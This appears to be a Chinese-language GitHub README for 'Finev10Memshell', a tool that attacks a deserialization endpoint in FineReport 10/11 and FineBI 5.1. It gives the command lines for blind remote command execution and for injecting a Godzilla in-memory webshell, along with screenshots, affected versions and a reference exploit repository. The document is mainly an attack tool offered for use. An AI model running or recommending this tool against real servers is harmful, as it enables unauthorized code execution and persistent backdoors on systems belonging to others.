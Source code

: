 # Finev10Memshell
针对finereportv10反序列化接口/webroot/decision/remote/design/channel进行无回显检测并提供Godzilla memshell注入功能（部分环境缺少依赖无法成功）。

因为添加了两个FineReport原生的jar包文件，因此打包后的工具体积较大，经历、水平有限暂不知道怎么解决，如有建议尽管提。

对工具不放心使用的可自行反编译检查。

## 使用方式

无回显命令执行：

```
java -jar FineV10Memshell.jar -u url -c 'command'
```
<img width="949" alt="image" src="https://github.com/Niiiiko/Finev10Memshell/assets/88720946/39e52978-7ac3-4403-8435-4ebbfe72ecfe">
Godzilla memshell注入：

```
java -jar FineV10Memshell.jar -u url -m
```

<img width="948" alt="image" src="https://github.com/Niiiiko/Finev10Memshell/assets/88720946/84257880-25c6-4c08-89dc-f655ff4e740d">
<img width="315" alt="image" src="https://github.com/Niiiiko/Finev10Memshell/assets/88720946/fe1a82e7-c21f-42e8-a808-e3c512364c73">

## 影响

2022-08-12 之前的 FineReport10.0/11.0、FineBI5.1 系列均受影響，非2023利用方式。

## 参考

https://github.com/Avento/FineReport_channel_Deserialization_Vulnerabilities_RCE
